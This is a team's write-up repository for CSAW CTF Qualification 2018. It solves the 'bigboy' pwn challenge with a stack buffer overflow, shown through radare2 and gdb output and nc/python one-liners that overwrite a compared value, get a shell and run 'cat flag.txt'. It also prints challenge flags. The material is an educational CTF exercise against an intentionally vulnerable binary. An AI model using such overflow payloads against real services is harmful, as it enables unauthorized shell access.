<p align="center">

</p>

# CSAW CTF Qualification Round 2018 2018 Writeup
This repository serves as a writeup for CSAW CTF Qualification Round 2018 which are solved by The [S3c5murf](https://ctftime.org/team/63808/) team

## Twitch Plays Test Flag

**Category:** Misc
**Points:** 1
**Solved:** 1392
**Description:**

> ``flag{typ3_y3s_to_c0nt1nue}``

<p align="center">

</p>


### Write-up
Just validate it.

So, the flag is : ``flag{typ3_y3s_to_c0nt1nue}``


## bigboy

**Category:** Pwn
**Points:** 25
**Solved:** 656
**Description:**

> Only big boi pwners will get this one!

> ``nc pwn.chal.csaw.io 9000``

**Attached:** [boi](resources/pwn-25-bigboy/boi)

<p align="center">

</p>


### Write-up
In this task, we are given a file and we should use a socket connexion to get the flag.

Let's try opening a socket connexion using that command ``nc pwn.chal.csaw.io 9000``.

Input : testtesttest

<p align="center">

</p>

Output : Current date

Alright. Now, we start analyzing the given file.

Using the command ``file boi``, we get some basic information about that file:

<p align="center">

</p>

The given file is an ELF 64-bit executable file that we need for testing before performing the exploitation through the socket connexion.

So let's open it using Radare2 :

```
r2 boi
aaa #For a deep analysis
```

<p align="center">

</p>


Then, we disassamble the main() method:

```
pdf @main
```

<p align="center">

</p>
<p align="center">

</p>

As we can see, there is 8 local variables in the main method:

```
|           ; var int local_40h @ rbp-0x40
|           ; var int local_34h @ rbp-0x34
|           ; var int local_30h @ rbp-0x30
|           ; var int local_28h @ rbp-0x28
|           ; var int local_20h @ rbp-0x20
|           ; var int local_1ch @ rbp-0x1c
|           ; var int local_18h @ rbp-0x18
|           ; var int local_8h @ rbp-0x8
```

Then, some local variables are initialized:

```
|           0x00400649      897dcc         mov dword [rbp - local_34h], edi
|           0x0040064c      488975c0       mov qword [rbp - local_40h], rsi
|           0x00400650      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=0x1a98 ; '('
|           0x00400659      488945f8       mov qword [rbp - local_8h], rax
|           0x0040065d      31c0           xor eax, eax
|           0x0040065f      48c745d00000.  mov qword [rbp - local_30h], 0
|           0x00400667      48c745d80000.  mov qword [rbp - local_28h], 0
|           0x0040066f      48c745e00000.  mov qword [rbp - local_20h], 0
|           0x00400677      c745e8000000.  mov dword [rbp - local_18h], 0
|           0x0040067e      c745e4efbead.  mov dword [rbp - local_1ch], 0xdeadbeef
```

After that, the message was printed "Are you a big boiiiii??" with the put() function:

```
|           0x00400685      bf64074000     mov edi, str.Are_you_a_big_boiiiii__ ; "Are you a big boiiiii??" @ 0x400764
|           0x0040068a      e841feffff     call sym.imp.puts           ; sym.imp.system-0x20; int system(const char *string);
```

Next, the read() function was called to read the input set by the user from the stdin:
```
|           0x0040068f      488d45d0       lea rax, qword [rbp - local_30h]
|           0x00400693      ba18000000     mov edx, 0x18
|           0x00400698      4889c6         mov rsi, rax
|           0x0040069b      bf00000000     mov edi, 0
|           0x004006a0      e85bfeffff     call sym.imp.read          ; ssize_t read(int fildes, void *buf, size_t nbyte);
```

The input was set in the [rbp - local_30h] address.

Then, a comparison was trigered to compare the value of the `[rbp - local_1ch]` address to the `0xcaf3baee` value.

But as explained previously, the `[rbp - local_1ch]` value was `0xdeadbeef` and not `0xcaf3baee`.

What to do then ?

As we remember, the data input from the stdin is set in the `[rbp - local_30h]` address.

And since we don't see any check on the data input set by the user while calling the read() function, we can exploit a buffer overflow attack to set the `0xcaf3baee` value in the `[rbp - local_30h]` address.

The difference between rbp-0x30 and rbp-0x1c in hexadecimal is 14. In base10 it's 20.

So the offset that we should use is equal to 20 bytes.

To resume the input should looks like : ``20 bytes + 0xcaf3baee``.

Let's exploit !

In exploit, I only need peda-gdb (I installed it and linked it to gdb so if you don't already downloaded peda-gdb, some of the next commands will not work or will not have the same output).

We run peda-gdb on the binary file and we disassamble the main function just to get the instruction's line numbers:

```
gdb boi
pdisass main
```

Output :

<p align="center">

</p>

We set a breakpoint on line main+108 to see the registers state after calling the cmp instruction:

```
b *main+108
```

<p align="center">

</p>


Let's try running the binary file with a simple input (for example input='aaaa' : length <=20):

```
r <<< $(python -c "print 'aaaa'")
```

Output :

<p align="center">

</p>
<p align="center">

</p>

The value of RAX register (64 bits) is `0xdeadbeef` which is the value of EAX register (32 bits). As I remember EAX register is the lower 32 bits of the RAX register. So until now, this makes sense to see that value in RAX register.

The value of RSI register (64 bits) is `aaaa\n` also as expected (data input).

And while jne (jump if not equals) is executed, the program will jump to the lines that executes /bin/date (refer to the main disassambled using radare2).

This is why, we see the current date in the output when we continue using `c` in gdb.

Another important thing, in the stack, we can see the value of the local variables.

Now, let's try smaching the stack and set 20+4 bytes in the data input:

```
r <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaabbbb'")
```

Output :

<p align="center">

</p>
<p align="center">

</p>

We can see that the value of RAX (means to EAX) is `bbbb` and we can see that in the stack part, the `0xdeadbeef00000000` was replaced by `aaaabbbb` after replacing the other local variables. And even though, the `Jump is taken`. So, if we continue the execution, we will get the current date.

Now, let's perform the exploitation seriously and replace `bbbb` by the `0xcaf3baee` value:

```
r <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xca'")
```

Output :

<p align="center">

</p>
<p align="center">

</p>

Now, RAX (means to EAX) gets the good value `0xcaf3baee`. And the Jump was not taken.

Let's continue :

```
c
```

Output :

<p align="center">

</p>

So the /bin/dash was executed.

Now, we try this exploit remotely over a socket connexion:

```
nc pwn.chal.csaw.io 9000 <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xca'")
```

<p align="center">

</p>

Pwned ! We got the shell. And we can get the flag.

But, wait... This is not good. Whatever the command that we run through this connexion, we don't receive the output.

Let's try sending the commands on the payload directly:

```
nc pwn.chal.csaw.io 9000 <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xcals'")
```

Output :

<p align="center">

</p>

Good ! Let's cat the flag file :

```
nc pwn.chal.csaw.io 9000 <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xcacat flag.txt'")
```

Output :

<p align="center">

</p>

So, the flag is : ``flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}``


## get it?

**Category:** Pwn
**Points:** 50
**Solved:** 535
**Description:**

> Do you get it?

<p align="center">

</p>


### Write-up
Coming soon.


## A Tour of x86 - Part 1

**Category:** Reversing
**Points:** 50
**Solved:** 433
**Description:**

> Newbs only!

> `nc rev.chal.csaw.io 9003`

> -Elyk

> Edit (09/15 12:30 AM) - Uploaded new stage-2.bin to make Part 2 easier.

**Attached:** [stage-1.asm](resources/reversing-50-a_tour_of_x86_part_1/stage-1.asm) [Makefile](resources/reversing-50-a_tour_of_x86_part_1/Makefile) [stage-2.bin](resources/reversing-50-a_tour_of_x86_part_1/stage-2.bin)

<p align="center">

</p>


### Write-up
Coming soon.


## Ldab

**Category:** Web
**Points:** 50
**Solved:** 432
**Description:**

> dab

> `http://web.chal.csaw.io:8080`

<p align="center">

</p>

### Write-up
Coming soon.


# Scoreboard

Our team S3c5murf (2 team members thanks to Dali) get ranked 139/1488 active challenger with a score 1451.

This is the scoreboard and the ranking in this CTF :

Summary:

<p align="center">





</p>

Tasks:

<p align="center">


</p>

